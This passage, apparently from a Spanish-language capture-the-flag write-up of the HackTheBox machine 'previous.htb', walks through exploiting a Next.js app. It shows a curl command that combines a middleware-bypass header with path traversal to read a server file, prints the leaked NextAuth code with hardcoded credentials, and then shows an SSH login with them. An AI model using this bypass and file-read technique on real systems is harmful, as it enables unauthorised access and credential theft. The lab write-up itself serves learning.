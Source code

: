 Info:

```
{
  "/_app": "pages/_app.js",
  "/_error": "pages/_error.js",
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
  "/api/download": "pages/api/download.js",
  "/docs/[section]": "pages/docs/[section].html",
  "/docs/components/layout": "pages/docs/components/layout.html",
  "/docs/components/sidebar": "pages/docs/components/sidebar.html",
  "/docs/content/examples": "pages/docs/content/examples.html",
  "/docs/content/getting-started": "pages/docs/content/getting-started.html",
  "/docs": "pages/docs.html",
  "/": "pages/index.html",
  "/signin": "pages/signin.html",
  "/_document": "pages/_document.js",
  "/404": "pages/404.html"
}
```

Sabiendo esto podremos analizar la siguiente ruta bastante interesante:

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" 'http://previous.htb/api/download?example=../../.next/server/pages/api/auth/\[...nextauth\].js'
```

Info:

```
"use strict";(()=>{var e={};e.id=651,e.ids=[651],e.modules={3480:(e,n,r)=>{e.exports=r(5600)},5600:e=>{e.exports=require("next/dist/compiled/next-server/pages-api.runtime.prod.js")},6435:(e,n)=>{Object.defineProperty(n,"M",{enumerable:!0,get:function(){return function e(n,r){return r in n?n[r]:"then"in n&&"function"==typeof n.then?n.then(n=>e(n,r)):"function"==typeof n&&"default"===r?n:void 0}}})},8667:(e,n)=>{Object.defineProperty(n,"A",{enumerable:!0,get:function(){return r}});var r=function(e){return e.PAGES="PAGES",e.PAGES_API="PAGES_API",e.APP_PAGE="APP_PAGE",e.APP_ROUTE="APP_ROUTE",e.IMAGE="IMAGE",e}({})},9832:(e,n,r)=>{r.r(n),r.d(n,{config:()=>l,default:()=>P,routeModule:()=>A});var t={};r.r(t),r.d(t,{default:()=>p});var a=r(3480),s=r(8667),i=r(6435);let u=require("next-auth/providers/credentials"),o={session:{strategy:"jwt"},providers:[r.n(u)()({name:"Credentials",credentials:{username:{label:"User",type:"username"},password:{label:"Password",type:"password"}},authorize:async e=>e?.username==="jeremy"&&e.password===(process.env.ADMIN_SECRET??"MyNameIsJeremyAndILovePancakes")?{id:"1",name:"Jeremy"}:null})],pages:{signIn:"/signin"},secret:process.env.NEXTAUTH_SECRET},d=require("next-auth"),p=r.n(d)()(o),P=(0,i.M)(t,"default"),l=(0,i.M)(t,"config"),A=new a.PagesAPIRouteModule({definition:{kind:s.A.PAGES_API,page:"/api/auth/[...nextauth]",pathname:"/api/auth/[...nextauth]",bundlePath:"",filename:""},userland:t})}};var n=require("../../../webpack-api-runtime.js");n.C(e);var r=n(n.s=9832);module.exports=r})();
```

Veremos que nos esta mostrando un usuario y contraseña, por lo que vamos a probarlas por `SSH` a ver si funciona.

### SSH

```shell
ssh jeremy@<IP>
```
